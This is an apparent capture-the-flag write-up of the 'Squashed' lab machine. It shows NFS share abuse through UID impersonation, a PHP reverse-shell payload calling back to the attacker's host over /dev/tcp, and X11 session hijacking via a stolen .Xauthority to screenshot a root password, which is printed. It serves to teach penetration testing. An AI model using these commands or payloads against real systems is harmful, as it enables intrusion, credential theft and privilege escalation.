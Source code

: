 # Squashed

After running `nmap`, I browsed the site for a bit, but after not finding anything interesting, then I researched the nfs service running on port 2049 since I did not recognize it.

# NFS on port 2049

After some digging around I explored what NFS is and how it might be exploited. Turns out it's recommended to not be exposed to everyone as the authentication is very limited.

To see available shares:

```
showmount -e box.htb
Export list for box.htb:
/home/ross    *
/var/www/html *
```

## Mounting the drives

I had some issues trying mount the drives, but a kernel reboot solves those issues. Spent a good amount of time trying to figure out what was wrong too!

```
$ mkdir r
$ sudo mount -t nfs box.htb:/home/ross ./r
$ ls -ld ./r
drwxr-xr-x 14 1001 onepassword 4096 May 16 00:49 r/
```

Looks like it's owned by user with user id 1001 and group onepassword??

I can browse the files since they're world readable, but only interesting file I could find was a KeePass file:

```
-rw-rw-r-- 1 1001 onepassword 1365 Oct 19  2022 Passwords.kdbx
```

Maybe I'll need it later, but for now I'll ignore it since I don't know how to crack it!

# /var/www/html

The other share is very interesting! Since /var/www/html is a typical place to put website files, maybe this controls the website at box.htb:80/.

```
$ mkdir www
$ sudo mount -t nfs box.htb:/var/www/html ./www
$ ls -ld www
drwxr-xr-- 5 dummy http 4096 May 17 11:30 www
```

Looks like this is owned by user id 2017, and I do not have permission to enter the directory. But as I understand it, NFS "authentication" is weak, and we might be able to pretend to be user id 2017 by simply creating a new user with this id.

```
$ sudo useradd dummy
$ sudo usermod -u 2017 dummy
$ sudo su dummy
$ id
uid=2017(dummy) gid=1002(dummy) groups=1002(dummy)
$ ls -l
total 56
drwxr-xr-x 2 dummy http   4096 May 17 11:40 css
-rw-r--r-- 1 dummy http     44 Oct 21  2022 .htaccess
drwxr-xr-x 2 dummy http   4096 May 17 11:40 images
-rw-r----- 1 dummy http  32532 May 17 11:40 index.html
drwxr-xr-x 2 dummy http   4096 May 17 11:40 js
```

So far so good. Now if this really does control the website, maybe we can mess with it and give up access. First I'll test by uploading a normal html file and see if I can access it in the browser.

```
$ echo "hello, world!" > foo.html
$ curl http://box.htb/foo.html
hello, world
```

It works! Now, Wappalyzer tells me PHP is running, but let's confirm it as well.

```
$ echo '<?php echo "hello, php" ?>' > foo.php
$ curl http://box.htb/foo.php
hello, php
```

Nice! So next step is to get a reverse shell. Spent some time trying different things off google, and landed on this:

```
$ echo -e "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.17/4444 0>&1'\");" > shell.php
```

And started a netcat listener in another terminal

```
nc -lnvp 4444
```

And finally `curl`ed from the first terminal

```
$ curl http://box.htb/shell.php
```

Which gets me this on the nc listener:

```
$ nc -lnvp 4444 # <-- from earlier
Connection from 10.10.11.191:45952
bash: cannot set terminal process group (1083): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ 
```

And now to upgrade the reverse shell so it's like a normal shell. I always do these steps:

```
$ script -qc /bin/bash /dev/null
C-z (backgrounds the reverse shell and brings me to attacking shell
$ stty raw -echo; fg # (fg brings me back to reverse shell)
$ reset
screen<enter>
```

Done! I usually don't bother with terminal size etc. Hasn't been an issue yet.

And since I've missed hidden files in the past, I always create this alias:

```
$ alias ll='ls -la'
```

Okay, good to go! Does Alex have the user flag?

```
alex@squashed:/var/www/html$ cat /etc/passwd | grep alex
alex:x:2017:2017::/home/alex:/bin/bash
alex@squashed:/var/www/html$ ll /home/alex/ | grep user.txt
-rw-r-----  1 root alex   33 May 15 22:50 user.txt
alex@squashed:/var/www/html$ cat /home/alex/user.txt 
<redacted>
```

Easy peasy!

Now to escalate to root somehow!


# Linux Exploit Suggester

exploit/linux/local/network_manager_vpnc_username_priv_esc
exploit/linux/local/su_login

# Came back to this box after a week!

Moved the xauthority file to alex:

```
(from attacking machiine while in ross mounted dir)
cat .Xauthority | base64

<take output into reverse shell alex home dir and create the .Xautority file>
alex$ echo "<output from above>" | base64 -d > .Xauthority
alex$ export HOME=/home/alex
alex$ w
 17:10:12 up 36 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               16:34   36:14   3.90s  0.04s /usr/libexec/gn
```

Finally some progress!

Shows display is called ":0"

Hacktricks suggest capturing a screenshot:

```
xwd -root -screen -silent -display :0 > screenshot.xwd
```

Transferred that to attacking machine to convert:


```
convert screenshot.xwd screenshot.png
```

And the screenshot shows root password in KeePass open - how convenient :D

```
cah$mei7rai9A
```

Ssh doesn't work for some reason - maybe password based auth is disabled?

Luckily, it's possible to change user from alex in our reverse shell:

```
alex$ su - root
<root pwd>
root$ id
uid=0(root) gid=0(root) groups=0(root)
root$ cat /root/root.txt
<snip>
```

Done!

# Conclusion

This box was fairly difficult for me. I did not know about .Xauthority and them being sensitive! I also did not know about the vulnerabilities about NFS.
